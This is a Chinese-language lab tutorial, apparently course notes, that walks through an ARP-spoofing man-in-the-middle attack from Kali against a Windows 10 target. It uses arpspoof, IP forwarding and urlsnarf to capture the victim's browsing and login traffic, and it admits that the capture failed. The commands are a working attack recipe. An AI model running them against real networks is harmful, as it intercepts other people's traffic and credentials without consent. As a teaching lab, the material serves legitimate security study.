

# ARP攻击-流量分析

## 1.课前准备

1.kali作为攻击机(192.168.15.141)

2.win10作为靶机(192.168.15.100)

## 2.kali数据包转发

出于安全考虑，Linux系统默认是禁止数据包转发的。所谓转发即当主机拥有多于一块的网卡时，其中一块收到数据包，根据数据包的目的ip地址将数据包发往本机另一块网卡，该网卡根据路由表继续发送数据包。这通常是路由器所要实现的功能。我们需要手动开启转发功能。

**1.如何开启通信转发？**

kali里有个ip_forward 配置文件 

1.默认是0 禁止端口转发

2.将其设置成1 开启端口转发

**2.开启步骤**

1.查看当前是否开启了端口转发

```
cat /proc/sys/net/ipv4/ip_forward 
```

2.开启通信转发的命令

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

3.使用arpspoof发起ARP攻击

```
arpspoof -i eth0 -r 192.168.15.2 -t 192.168.15.100
```

	

4.win10验证是否转发成功,于是此时哪怕使用arp欺骗，win10也可以联网。

```
访问：https://www.mashibing.com/
```

	

## 3.dsniff工具

**1.工具介绍**

Dsniff是一个基于unix系统网络嗅探工具，工具集包含两个我们需要的两个工具包，arpspoof 和urlsnarf。              

**2.安装方法**

```
apt-get install dsniff
```

3.urlsnarf工具介绍

```
urlsnarf -h
urlsnarf [-n] [-i interface | -p pcapfile] [[-v] pattern [expression]]

-n 表示不反查主机名
-i interface 网卡接口名
-p pattern 表示对过滤的内容使用的正则表达式
-v表示取相反，即是不匹配；expression 是过滤语法，和tcpdump的相同，请参考tcpdump。
```

​	


## 4.url流量分析

**1.概念**

URL流量嗅探操作非常类似于中间人攻击，通过目标主机将路由流量注入到因特网。该过程将通过ARP注入实现攻击。url嗅探能够实时跟踪电脑中的数据流量信息，并且分析出它的类型和去向。从而获得你上网信息。

**2.攻击流程**

1.开启流量转发

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

2.开启ARP攻击

```
arpspoof -i eth0 -r 192.168.110.1 -t 192.168.110.11
```

3.捕获目标计算机的url

```
urlsnarf -i eth0
```

4.靶机上网，访问网站

```
1.http://www.kangda.cn/#/user/login?redirect=http%3A%2F%2Fwww.kangda.cn%2F%23%2F
2.http://blog.tianya.cn/
```

5.kali分析用户请求

具体操作如下

显示版本号说明安装成功。

	

开始进行arp欺骗。

	

并且开始监听eth0，即监听靶机转发过来的数据有哪些。从而得知靶机的上网记录。

	

win10靶机模仿上网，并且输入账号密码


但是这里明显捕获流量失败，但是具体操作就是这么回事，懂原理即可。

	

## 5.课堂小结

请看ARP流量分析课后笔记.xmind